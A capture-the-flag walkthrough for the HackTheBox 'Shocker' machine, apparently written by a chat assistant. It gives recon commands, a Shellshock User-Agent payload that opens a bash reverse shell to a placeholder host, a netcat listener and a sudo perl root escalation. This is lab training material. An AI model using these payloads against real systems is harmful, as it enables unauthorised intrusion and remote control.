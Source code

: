 ## ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
- **Exploits**: CVE-2014-6271 (Shellshock)
- **Ports**: 80 (HTTP), 2222 [SSH](SSH)

---

### 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.56
nmap -p 80,2222 -sCV -oA scans/scripts 10.10.10.56
```
- Port 80: Apache/2.4.18 (Ubuntu)
- Port 2222: OpenSSH 7.2p2 (Ubuntu 16.04)

---

### 🌐 [Web Enumeration](HTTP)
```bash
feroxbuster -u http://10.10.10.56 -x php,html -f -n
```
Discovered:
- `/cgi-bin/` directory (403 Forbidden)
- `/cgi-bin/user.sh` script (200 OK)

---

### 🐚 ShellShock (CVE-2014-6271) Exploit
Using Burp or curl to test ShellShock via `User-Agent`:
```http
User-Agent: () { :;}; echo; /bin/ping -c 1 <YOUR_IP>
```
For reverse shell:
```bash
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1
```
Start a listener:
```bash
nc -lvnp 443
```
Successful shell as:
```bash
shelly@Shocker:/usr/lib/cgi-bin$
```
Stabilize:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
```

---

### 🧼 Privilege Escalation
Check `sudo` permissions:
```bash
sudo -l
```
Output:
```bash
(root) NOPASSWD: /usr/bin/perl
```
Exploit:
```bash
sudo perl -e 'exec "/bin/bash"'
```
You now have a root shell:
```bash
root@Shocker:~# cat /root/root.txt
```

---

### 🛠 Beyond Root: Apache Config Quirk
Apache config snippet at `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:
```apache
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
```
The trailing slash is required. Without it, `/cgi-bin` returns 404.

To test:
```bash
curl http://10.10.10.56/cgi-bin/        # 200 OK
curl http://10.10.10.56/cgi-bin         # 404 Not Found
```

---

### 📚 Notes on ShellShock Behavior
- Only bash builtins (e.g. `echo`, `printf`) continue execution after initial eval.
- Binaries (e.g. `python3`, `perl`, etc.) often cause execution to halt.
- Chaining works best with pipes (`|`) rather than `;` or `&&`.


Let me know if you want walkthroughs for other boxes like Sunday, Sense, or Valentine 🧠💥

